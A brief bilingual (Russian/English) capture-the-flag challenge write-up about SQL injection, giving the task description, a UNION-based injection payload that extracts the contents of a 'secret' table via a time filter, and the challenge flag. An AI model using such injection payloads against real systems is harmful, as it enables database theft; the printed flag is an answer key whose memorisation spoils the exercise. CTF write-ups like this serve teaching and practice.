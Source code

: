 # SQL что?
## Legend
RU
Насколько уверенно вы чувствуете себя в SQL?

EN
How confident do you feel in your SQL?

## Description
Я знаю, что есть где-то есть таблица secret, но вот что в ней?
Запусти main.py и получи secret

## Solution
Вставьте SQL иньекцию в строку для фильтрации по времени создания 

>' UNION SELECT 12, content, content, NULL from secret --

## Flag 
HITS{FfFflagg1asAsaaaa}
